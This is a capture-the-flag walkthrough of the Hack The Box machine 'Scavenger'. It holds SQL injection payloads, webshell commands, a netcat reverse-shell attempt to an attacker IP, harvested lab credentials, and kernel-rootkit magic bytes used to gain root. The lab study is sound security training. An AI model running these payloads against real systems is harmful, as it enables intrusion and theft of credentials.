

# Scavenger

This is the write-up for the box Scavenger that got retired at the 29th February 2020.
My IP address was 10.10.14.15 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.155    scavenger.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/scavenger.nmap 10.10.10.155
```

```
PORT   STATE  SERVICE  VERSION
20/tcp closed ftp-data
21/tcp open   ftp      vsftpd 3.0.3
22/tcp open   ssh      OpenSSH 7.4p1 Debian 10+deb9u4 (protocol 2.0)
| ssh-hostkey:
|   2048 df:94:47:03:09:ed:8c:f7:b6:91:c5:08:b5:20:e5:bc (RSA)
|   256 e3:05:c1:c5:d1:9c:3f:91:0f:c0:35:4b:44:7f:21:9e (ECDSA)
|_  256 45:92:c0:a1:d9:5d:20:d6:eb:49:db:12:a5:70:b7:31 (ED25519)
25/tcp open   smtp     Exim smtpd 4.89
| smtp-commands: ib01.supersechosting.htb Hello nmap.scanme.org [10.10.14.15], SIZE 52428800, 8BITMIME, PIPELINING, PRDR, HELP,
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP
43/tcp open   whois?
| fingerprint-strings:
|   GenericLines, GetRequest, HTTPOptions, Help, RTSPRequest:
|     % SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
|     more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
|     This query returned 0 object
|   SSLSessionReq, TLSSessionReq, TerminalServerCookie:
|     % SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
|     more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
|_    1267 (HY000): Illegal mix of collations (utf8mb4_general_ci,IMPLICIT) and (utf8_general_ci,COERCIBLE) for operation 'like'
53/tcp open   domain   ISC BIND 9.10.3-P4 (Debian Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Debian
80/tcp open   http     Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
(...)
Service Info: Host: ib01.supersechosting.htb; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

There is a hostname _supersechosting.htb_ that should be put into the _/etc/hosts_ file with all subdomains to be able to access it:
- www[.]supersechosting.htb
- ib01.supersechosting.htb

## Checking HTTP (Port 80)

The web page on the IP shows two sentences:
```
Virtualhost not available.

ERROR: vhost config data not found.
```

The web page on _www[.]supersechosting.htb_ shows some information about the fictional web hosting provider:



The hostnames in this image should also be put into the _/etc/hosts_ file:
- dns.supersechosting.htb
- whois.supersechosting.htb

By manually browsing to _index.html_, it responds with _"404 Not Found"_, while _index.php_ is found and that is how we know a PHP server is running in the background.

Lets search for hidden directories and PHP files on the IP with **Gobuster**:
```
gobuster -u http://10.10.10.155 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

It finds default Apache directories and nothing unexpected.

Lets search for hidden directories and PHP files on the hostname with **Gobuster**:
```
gobuster -u http://www.supersechosting.htb dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

It finds directories of the underlying CMS, but there are no valuable files.

## Checking DNS (Port 53)

Checking the DNS entries to see if a **DNS Zone Transfer** is possible:
```
dig axfr supersechosting.htb @10.10.10.155
```
```
supersechosting.htb.    604800  IN      SOA     ns1.supersechosting.htb. root.supersechosting.htb. 3 604800 86400 2419200 604800
supersechosting.htb.    604800  IN      NS      ns1.supersechosting.htb.
supersechosting.htb.    604800  IN      MX      10 mail1.supersechosting.htb.
supersechosting.htb.    604800  IN      A       10.10.10.155
ftp.supersechosting.htb. 604800 IN      A       10.10.10.155
mail1.supersechosting.htb. 604800 IN    A       10.10.10.155
ns1.supersechosting.htb. 604800 IN      A       10.10.10.155
whois.supersechosting.htb. 604800 IN    A       10.10.10.155
www.supersechosting.htb. 604800 IN      A       10.10.10.155
supersechosting.htb.    604800  IN      SOA     ns1.supersechosting.htb. root.supersechosting.htb. 3 604800 86400 2419200 604800
```

It works and the found subdomains should be put into the _/etc/hosts_ file:
- ftp.supersechosting.htb
- mail1.supersechosting.htb
- ns1.supersechosting.htb
- root.supersechosting.htb

## Checking Whois (Port 43)

On port 43 runs a **WHOIS service** and by asking it for information on the domain name _supersechosting.htb_, it shows some information about it:
```
nc 10.10.10.155 43

supersechosting.htb

% SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
% for more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
% This query returned 1 object
   Domain Name: SUPERSECHOSTING.HTB
   Registrar WHOIS Server: whois.supersechosting.htb
   (...)
```

It says that the server is called _MariaDB10.1.37_, so it seems to look up the information from a MySQL database.
By sending a single quote to the service, it results in a SQL error:
```
nc 10.10.10.155 43

'test

% SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
% for more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'test') limit 1' at line 1
```

This service is vulnerable to a **SQL Injection vulnerability**.

### Exploiting SQL Injection Vulnerability

As far as the error shows, the SQL query probably looks kind of like this:
```
SELECT * FROM 'test') LIMIT 1
```

By sending a comment after the closing bracket, the `LIMIT` command is removed and there is no error:
```
')-- -
```

Enumerating how many columns are returned:
```
') ORDER BY 1-- -

') ORDER BY 2-- -

') ORDER BY 3-- -
```
```
1054 (42S22): Unknown column '3' in 'order clause'
```

There was an error at column 3, because there are only two columns that can be ordered by, which means that the SQL query looks more like this:
```
SELECT hostname,ip FROM whois WHERE (INJECTED))-- - LIMIT 1
```

Testing for `UNION` command to output data:
```
') UNION SELECT "test1","test2"-- -

% SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
% for more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
% This query returned 1 object
test1
```

It returns the first one, which means it is possible to extract one field at a time.
Now that we know how the SQL Injection works, the data can be enumerated from the _infomation_schema_ table.

Getting the databases:
```
') UNION SELECT group_concat(SCHEMA_NAME),2 FROM information_schema.schemata-- -

(...)
information_schema,whois
```

Getting the tables of the database _whois_:
```
') UNION SELECT group_concat(TABLE_NAME),2 FROM information_schema.tables WHERE table_schema="whois"-- -

(...)
customers
```

Getting the columns of the table _customers_:
```
') UNION SELECT group_concat(column_name),2 FROM information_schema.columns WHERE table_name="customers"-- -

(...)
id,domain,data
```

Getting the contents of the column _domain_:
```
') UNION SELECT group_concat(domain),2 FROM whois.customers-- -

(...)
supersechosting.htb,justanotherblog.htb,pwnhats.htb,rentahacker.htb
```

This results in three more domains, where **DNS Zone Transfer** should be tested:
- justanotherblog.htb
- pwnhats.htb
- rentahacker.htb

## DNS Zone Transfers

Checking the DNS entries to see if **DNS Zone Transfers** are possible:
```
dig axfr justanotherblog.htb @10.10.10.155
```

- justanotherblog.htb
- mail1.justanotherblog.htb
- www[.]justanotherblog.htb

After putting them all into the _/etc/hosts_ file and browsing to all domains, the domain _www[.]justanotherblog.htb_ has a web page that says _"Under Construction"_.

```
dig axfr pwnhats.htb @10.10.10.155
```
- pwnhats.htb
- mail1.pwnhats.htb
- www[.]pwnhats.htb

After putting them all into the _/etc/hosts_ file and browsing to all domains, the domain _www[.]pwnhats.htb_ runs a shop with the E-Commerce software [PrestaShop](https://www.prestashop.com/en).

```
dig axfr rentahacker.htb @10.10.10.155
```

- mail1.rentahacker.htb
- sec03.rentahacker.htb
- www[.]rentahacker.htb
- rentahacker.htb

After putting them all into the _/etc/hosts_ file and browsing to all domains, the domain _www[.]rentahacker.htb_ runs a _"Rent-A-Hacker"_ blog on **WordPress**.

The domain _sec03.rentahacker.htb_ shows an image of a person with a Guy Fawkes mask and the text _"Owned by 31173 HAXXOR team!!!"_.
It looks like that this site is hacked and defaced, so the hackable part of the website has to be searched to gain access to it.

### Exploiting sec03.rentahacker.htb

Searching for hidden directories and PHP files with **Gobuster**:
```
gobuster -u http://sec03.rentahacker.htb/ dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

Other than the default directories and files for the software [Mantis Bug Tracker](https://www.mantisbt.org/), there is also a file called _shell.php_.
It comes back as a blank page and this is probably the webshell the hackers left behind.

To use it, the parameter that it needs to execute commands has to be found out by fuzzing with **Wfuzz**:
```
wfuzz --hw 0 -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt http://sec03.rentahacker.htb/shell.php?FUZZ=id
```

The parameter _hidden_ comes back with a bigger file size and this is the parameter to use the webshell:
```
http://sec03.rentahacker.htb/shell.php?hidden=whoami
```

This outputs the result of `whoami` and the running user is called _ib01c03_, so command execution is successful.

Lets start a reverse shell connection:
```
GET /shell.php?hidden=nc 10.10.14.15 9001
Host: sec03.rentahacker.htb
(...)
```

Unfortunately it does not establish a connection, which is probably because of a firewall that is in the way.
By searching the file system, the **iptables rules** are found:
```
GET /shell.php?hidden=find+/etc+|+grep+iptable
```
```
/etc/iptables
/etc/iptables/rules.v6
/etc/iptables/rules.v4
```

Getting contents of _iptables/rules.v4_:
```
GET /shell.php?hidden=cat+/etc/iptables/rules.v4
```
```
:INPUT DROP [0:0]
:FORWARD ACCEPT [0:0]
:OUTPUT DROP [0:0]
-A INPUT -p icmp -j ACCEPT
-A INPUT -p udp -m udp --sport 53 -m u32 --u32 "0x1e=0x81000000:0x81ffffff" -j ACCEPT
-A INPUT -p tcp -m tcp --dport 20 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 21 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 22 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 25 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 43 -j ACCEPT
-A INPUT -p udp -m udp --dport 53 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 80 -j ACCEPT
(...)
-A OUTPUT -p tcp -m tcp --sport 20 -j ACCEPT
(...)
```

It drops every packet on input and output in the beginning of the rules.

Enumerating the web directory and search for potential passwords:
```
GET shell.php?hidden=cat+/home/ib01c03/www/wp-config.php
```
```
/** MySQL database username */
define('DB_USER', 'ib01c03');

/** MySQL database password */
define('DB_PASSWORD', 'Thi$sh1tIsN0tGut');

/** MySQL hostname */
define('DB_HOST', 'localhost');
```

The credentials work on the FTP service, but that shows the same content that can be seen with the webshell.
As the Nmap scan shows, there is a SMTP mail server running on this box, so lets see if there are mails:
```
GET /shell.php?hidden=cat+/var/mail/ib01c03
```
```
From support@ib01.supersechosting.htb Mon Dec 10 21:10:56 2018
(...)
To: <ib01c03@ib01.supersechosting.htb>
Subject: Re: Please help! Site Defaced!
(...)

>> Please we need your help. Our site has been defaced!
>> What we should do now?
>>
>> rentahacker.htb

Hi, we will check when possible. We are working on another incident right now. We just make a backup of the apache logs.
Please check if there is any strange file in your web root and upload it to the ftp server:
ftp.supersechosting.htb
user: ib01ftp
pass: YhgRt56_Ta

Thanks.
```

The hosting provider sent credentials for the FTP service on _ftp.supersechosting.htb_.

## Checking FTP (Port 21)

Login into the FTP service:
```
ftp ftp.supersechosting.htb
```
```
ftp> pwd
257 "/home/ib01ftp/incidents/ib01c01" is the current directory

ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-r--rw-r--    1 1005     1000        10427 Dec 10  2018 ib01c01.access.log
-rw-r--r--    1 1000     1000       835084 Dec 10  2018 ib01c01_incident.pcap
-r--rw-r--    1 1005     1000          173 Dec 11  2018 notes.txt
```

In the directory _/home/ib01ftp/incidents/ib01c01_ are three files that I will download and analyze on my local client.
```
ftp> mget *
```

### Analyzing the Files

- notes.txt
  ```
  After checking the logs and the network capture, all points to that the attacker knows valid credentials and abused a recently discovered vuln to gain access to the server!
  ```

- ib01c01.access.log

Searching for IPs:
```
cat ib01c01.access.log | awk '{print $1}' | sort -u
```
```
10.0.2.19
```

Searching for User-Agents:
```
cat ib01c01.access.log | awk -F\" '{print $6}' | uniq -c
```
```
36 Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
7 Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
```

The User-Agent with seven connections probably belongs to the attacker:
```
cat ib01c01.access.log | grep "Mozilla/4.0"
```
```
10.0.2.19 - - [10/Dec/2018:21:52:21 +0100] "GET http://www.pwnhats.htb/admin530o6uisg/ HTTP/1.1" 302 816 "-" "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)"
10.0.2.19 - - [10/Dec/2018:21:52:21 +0100] "GET http://www.pwnhats.htb/admin530o6uisg/index.php?controller=AdminLogin&token=de267fd50b09d00b04cca76ff620b201 HTTP/1.1" 200 6935 "-" "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)"
10.0.2.19 - - [10/Dec/2018:21:52:21 +0100] "POST /admin530o6uisg/index.php?rand=1542582364810 HTTP/1.1" 200 1193 "-" "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)"
10.0.2.19 - - [10/Dec/2018:21:52:21 +0100] "GET http://www.pwnhats.htb/admin530o6uisg/index.php?controller=AdminDashboard&token=57937975b5b5670543f24859b0f7dbb8 HTTP/1.1" 200 110166 "-" "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)"
10.0.2.19 - - [10/Dec/2018:21:52:22 +0100] "POST /admin530o6uisg/index.php?controller=AdminCustomerThreads&token=8d8e4db864318da7655c7f2d8175815f HTTP/1.1" 200 90999 "-" "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)"
```

It looks like the attacker got access by doing something on _www[.]pwnhats.htb_ first and the value _"1542582364810"_ is a good string to look out for in the PCAP file.

- ib01c01_incident.pcap

```
wireshark ib01c01_incident.pcap
```

Using `Ctrl + F` in **Wireshark** to search for the string _"1542582364810"_ and follow the TCP stream to show the data that was sent in the POST request:
```
POST /admin530o6uisg/index.php?rand=1542582364810 HTTP/1.1
Host: www.pwnhats.htb
(...)
ajax=1&token=&controller=AdminLogin&submitLogin=1&passwd=GetYouAH4t%21&email=pwnhats%40pwnhats.htb&redirect=http%3a//www.pwnhats.htb/admin530o6uisg/%26token%3de44d0ae2213d01986912abc63712a05bHTTP
(...)
```

There are credentials for the _www[.]pwnhats.htb_ website, but they don't work on any of the web login forms:
```
Username: pwnhats@pwnhats.htb
Password: GetYouAH4t!
```

After analyzing the PCAP more, there were suspicious files sent between the IP 10.0.2.19 and 10.0.2.122, that can be exported with Wireshark:
```
File --> Export Objects --> HTTP --> Packet number 426 (Makefile) & Packet number 489 (root.c)
```

It is a _Makefile_ for compiling and the according _root.c_ source code.

The file _root.c_ looks like a **Kernel Rootkit** as it creates a device and sends data to it.
If the magic data _"g0tR0ot"_ is sent to the device _ttyR03_, it will edit the credential structure and give us root.

When testing that on the webshell and the `whoami` command, it still shows the user _ib01c03_:
```
GET /shell.php?hidden=echo+"g0tR0ot"+>+/dev/ttyR0%3b+whoami
Host: sec03.rentahacker.htb
```

We need a shell on the box and the firewall can be bypassed with a **Forward Shell** by uploading a shell to the box and use files as Input/Output.

## Getting a Shell

I will use this [forward-shell from IppSec](https://github.com/IppSec/forward-shell/blob/master/forward-shell.py) and modify it accordingly.
```
(...)
self.url = r"http://sec03.rentahacker.htb/shell.php"
(...)
headers = {'hidden': payload}
(...)
```

Running the script to get a shell:
```
python3 forward-shell.py

Cmd> upgrade

Cmd> echo "g0tR0ot" > /dev/ttyR0
```

The rootkit command still does not work, so maybe another user is needed to execute it.

### Privilege Escalation

There are two more users on the box and all gained passwords should be tested on them to escalate privileges:
- ib01c01
- ib01c02

```
ib01c03@ib01:/home/ib01c03/sec03$
su - ib01c01
Password:
GetYouAH4t!

whoami
ib01c01
```

The password _"GetYouAH4t!"_ worked on the user _ib01c01_ and in the home directory _/home/ib01c01/..._ is a hidden path named as three dots.
In here is a file called _root.ko_ which is the binary kernel object file of the Rootkit.

After decompiling and analyzing it with **Ghidra**, the function _root_write_ has different magic bytes than the source code found earlier.
The magic bytes in this Rootkit are _"g3tPr1v"_ so lets see if that string works:
```
echo "g3tPr1v" > /dev/ttyR0
```

After sending the string to the device, the `id` command shows that we got root!
